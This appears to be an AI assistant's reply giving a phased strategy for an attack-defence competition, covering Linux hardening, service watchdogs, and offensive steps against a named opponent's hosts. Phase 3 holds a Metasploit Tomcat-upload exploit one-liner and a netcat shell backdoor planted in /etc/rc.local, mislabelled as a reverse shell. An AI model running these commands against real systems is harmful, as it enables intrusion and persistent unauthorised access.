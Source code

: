 ### **Best Course of Action at the Start of the Competition**

To maximize points early and secure your Linux systems effectively, follow this structured approach:

#### **Phase 1: Immediate Hardening of Designated Assets (First 15 Minutes)**
1. **Change Default Credentials:**
   - Reset all default passwords to strong, randomized ones.
   - Disable root login via SSH.

   ```bash
   echo "Setting up initial security configurations..."
   passwd
   passwd -l root
   ```

2. **Update and Patch Systems:**
   - Ensure the system is up to date to patch known vulnerabilities.

   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

3. **Disable Unnecessary Services:**
   - Turn off services that aren’t needed to reduce the attack surface.

   ```bash
   systemctl list-units --type=service
   systemctl stop <unnecessary_service>
   systemctl disable <unnecessary_service>
   ```

4. **Enable Firewall & Basic Filtering:**
   - Configure firewall rules to allow only necessary services.

   ```bash
   sudo ufw default deny incoming
   sudo ufw default allow outgoing
   sudo ufw allow 22/tcp  # Allow SSH if needed
   sudo ufw allow 80,443/tcp  # Allow web services
   sudo ufw enable
   ```

5. **SSH Security Enhancements:**
   - Disable password authentication and root login, use key-based authentication.

   ```bash
   sudo sed -i 's/#PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config
   sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config
   sudo systemctl restart sshd
   ```

6. **Setup Intrusion Detection (Fail2Ban & Auditd):**
   - Prevent brute-force attacks and monitor for suspicious activity.

   ```bash
   sudo apt install fail2ban auditd -y
   sudo systemctl enable --now fail2ban auditd
   ```

#### **Phase 2: Service Availability Optimization (Next 20 Minutes)**
1. **Ensure Services are Running & Monitored:**
   - Set up a watchdog process to restart critical services automatically.

   ```bash
   systemctl enable --now apache2
   systemctl enable --now mysql
   ```

2. **Automated Service Monitoring Script:**
   - Create a script to restart services if they go down.

   ```bash
   echo -e '#!/bin/bash\nwhile true; do\n  systemctl restart apache2 mysql\n  sleep 60\ndone' | sudo tee /root/service_watchdog.sh
   sudo chmod +x /root/service_watchdog.sh
   nohup /root/service_watchdog.sh &
   ```

#### **Phase 3: Offensive Reconnaissance & Attacks (~30 Minutes)**
1. **Network Scanning:**
   - Quickly identify open ports and vulnerable services on the Nautilus Group Assets.

   ```bash
   nmap -sV -p- <target_IP>
   ```

2. **Exploit Known Vulnerabilities:**
   - Use tools like Metasploit, SQLmap, and Hydra to target weak credentials and configurations.

   ```bash
   msfconsole -q -x "use exploit/multi/http/tomcat_mgr_upload; set RHOSTS <target>; run"
   ```

3. **Establish Persistence on Compromised Machines:**
   - Deploy a reverse shell backdoor.

   ```bash
   echo 'nc -lvnp 4444 -e /bin/bash' | tee -a /etc/rc.local
   ```

#### **Phase 4: KOTH Preparation (~10 Minutes Before the Event)**
1. **Pre-Write Automated Scripts for Quick Deployment**
   - Have scripts ready to immediately establish control over KOTH assets.

   ```bash
   echo "echo 'TeamX' > /var/www/html/koth_flag" | tee /root/koth_script.sh
   chmod +x /root/koth_script.sh
   ```

2. **Defensive Persistence Techniques**
   - Add firewall rules to block access from other teams.

   ```bash
   sudo iptables -A INPUT -s <other_team_IP> -j DROP
   ```

This strategy prioritizes early defensive hardening, continuous service availability, aggressive offensive action, and strategic KOTH dominance. Do you want more specific automation for maintaining KOTH persistence?
